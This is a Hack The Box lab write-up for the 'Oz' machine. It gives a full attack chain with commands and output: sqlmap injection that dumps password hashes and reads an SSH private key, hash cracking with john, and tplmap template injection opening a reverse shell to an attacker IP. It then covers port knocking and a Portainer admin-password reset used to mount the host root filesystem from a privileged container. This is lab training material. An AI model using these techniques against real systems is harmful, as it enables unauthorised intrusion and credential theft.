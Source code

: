 # Oz
[![Oz](https://www.hackthebox.eu/storage/avatars/58f516e793394d6df9f6d5d56e9b7ac6.png)](https://www.hackthebox.eu/home/machines/profile/152)

## Initial Foothold
### Nmap
We run nmap.
```sh
$ nmap -A -v 10.10.10.96
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 74DEB5B89F2D7EEE2CB1F05597640DE7
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET POST
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 131B03077D7717DBFF2E41E52F08BC7A
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```

If we open it through a browser and try to find directories, we eventually see that the server is set up to respond randomly in different requests. If we pay attention to responses, we realize that they return a single line. So if we only hide responses that return a single line we might get something.
```sh
$ wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --hl 0 http://10.10.10.96/FUZZ

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.96/FUZZ
Total requests: 4614

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      3 L	       6 W	     75 Ch	  ""
004245:  C=200      3 L	       6 W	     79 Ch	  "users"
````
Directory "users" seem to return different results. Indeed, if we view page source code there are more than one lines.
Now we can run dirb on this directory.
```sh
$ dirb http://10.10.10.96/users

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

---- Scanning URL: http://10.10.10.96/users/ ----

+ http://10.10.10.96/users/admin (CODE:200|SIZE:21)
```

We suspect that here might be a parameter, because of the json results we got, so why not try to inject.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --dump

+----+-------------+----------------------------------------------------------------------------------------+
| id | username    | password                                                                               |
+----+-------------+----------------------------------------------------------------------------------------+
| 1  | dorthi      | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 |
| 2  | tin.man     | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk |
| 3  | wizard.oz   | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY |
| 4  | coward.lyon | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY |
| 5  | toto        | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg |
| 6  | admin       | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ |
+----+-------------+----------------------------------------------------------------------------------------+
```
After a lot time of cracking hashes, for some, we come up with a password.
```sh
$ echo '$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY' > hash
$ john -form:PBKDF2-HMAC-SHA256 hash /usr/share/wordlists/rockyou.txt

wizardofoz22
```
From the sqlmap dump we did previously "sqlmap --risk 3 -u 10.10.10.96/users/admin --dump", we can see the ticket bellow:
```
Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.
```
It is worthwhile to take a look if ssh keys are forgotten in dorthi's home directory.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --file-read=/home/dorthi/.ssh/id_rsa
```
Good, now we have a private ssh key for user dorthi but yet, it is passphrase protected and we don't have the credentials plus, port 22 it's not even open.
Back to the web api on port 8080 we login like wizard.oz
```
username: wizard.oz
password: wizardofoz22
```
At the top right of the page there is an add button from wich we should be able to create new ticket.
If we take a look at nmaps results, we see this:
```
http-server-header: Werkzeug/0.14.1 Python/2.7.14
```
The server use python [Template](http://jinja.pocoo.org/docs/2.10/templates/) which might be injectable.
The tool we are going to use is tplmap and it can be found [here](https://github.com/epinna/tplmap).
```sh
$ nc -lvp 5656
$ python2.7 tplmap.py -u "http://10.10.10.96:8080" -d "name=skata*&desc=skatd*" -c "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0MzU4MzQyNX0.BYHb6iO2zGT6jlgI89QmxUX8n1bDizJdDiRDD021BUo" --reverse-shell 10.10.14.16 5656
```
The values of the POST request are random and the token is the cookie of the current user session.

***Warning!*** The token expire after some time.

We now got a reverse shell. If we dig around a bit, we will figure out that we are inside a [docker](https://www.docker.com/) container. After some very basic enumeration we find some credentials as well as a port knock sequence (probably for the port 22), on the corresponding paths.
```sh
$ cat /containers/database/start.sh
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \

$ cat /.secret/knockd.conf
sequence	= 40809:udp,50212:udp,46969:udp
```
Lets try port knocking and see if any ports open.
```sh
$ apt install knockd
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ nmap -A -v 10.10.10.96
Discovered open port 80/tcp on 10.10.10.96
Discovered open port 22/tcp on 10.10.10.96
Discovered open port 8080/tcp on 10.10.10.96
```
As we can see along with ports 80 and 8080, port 22 is now opened.
Lets connect with [ssh](/Oz/rsa_id).

***Warning!*** The port will close after 15 seconds.
```sh
$ chmod 500 id_rsa
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Finally... we have ssh connection.
Running the command bellow, we see that we can execute some docker commands as root.
```sh
$ sudo -l
User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
```
We first run the ls command to check what networks are created and then we can inspect a specific network.
```sh
$ sudo /usr/bin/docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
fb9c66028c43        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local

$ sudo /usr/bin/docker network inspect fb9c66028c43
"Name": "portainer-1.11.1",
"EndpointID": "6f700a3e7c7a7ae3b8accd6e89b1fd495da7805473901af9c71cbb02a1e4eafb",
"MacAddress": "02:42:ac:11:00:02",
"IPv4Address": "172.17.0.2/16",
"IPv6Address": ""
```
The machine is running portainer-1.11.1 web app on 172.17.0.2, where Portainer is a GUI for docker management.
All that remains now is to find the port and do ssh tuneling so we can have local access via our web browser.
```sh
$ nmap -A -v 172.17.0.2
Discovered open port 9000/tcp on 172.17.0.2
```
Great, portainer is running on port 9000, the default one.
Let's do the tunneling.
```sh
$ exit
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -L 9000:172.17.0.2:9000 -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Once we are logged in, we open up the browser and type.
```
127.0.0.1:9000
```
Now we have to login somehow. After some googling, [found out](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) that you can initialize the admin password.
Run this from the remote machine.
```sh
$ http POST 172.17.0.2:9000/api/users/admin/init Username="admin" Password="adminpassword"
HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/plain; charset=utf-8
Date: Thu, 06 Dec 2018 15:44:53 GMT
```
Now we can login with:
```
username: admin
password: adminpassword
```
Hit Login. Given the fact that Portainer is running as root, we can exploit the volumes feature. Volumes in docker let us share directories and files between host and container and while root doing that, we can share any file and directory we want.
Before we create a new container, we memorize a name of the listed images so we can put it on the next step. We click on ***Containers -> Add container***.
![portainer1](./images/Screenshot_2018-12-06_18-01-46.png)

Then we set ***Name, Image ***(the image name we memorized before)***, Entry Point, Working Dir, User, Console***, as in the image bellow.
![portainer2](./images/Screenshot_2018-12-06_18-04-23.png)

We move on to the ***Volumes*** tab and we set the following. ***Add volume button -> tick Path checkbox -> set path "/" for host -> set path "/host" for container***. What we did is shared the root directory of the host machine with a specific directory inside the container which name is "host" (a random name).
![portainer3](./images/Screenshot_2018-12-06_18-05-52.png)

Finally, on Security/Host tab we check the ***Privileged mode*** box and click ***Create***.
![portainer4](./images/Screenshot_2018-12-06_18-06-15.png)

Back in ***Containers*** tab again, we find our container we just created and click on its name.
![portainer5](./images/Screenshot_2018-12-06_18-06-51.png)

On ***Container details*** page, we click on ***console***.
![portainer6](./images/Screenshot_2018-12-06_18-07-08.png)

Next, hit ***Connect***.
![portainer7](./images/Screenshot_2018-12-06_18-07-27.png)

Now, we have an ***Interactive TTY*** session on our container.
Final step.
```sh
$ cat /host/root/root.txt
bGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxl
```
We got ***ROOT!!!***   



[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Oz](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
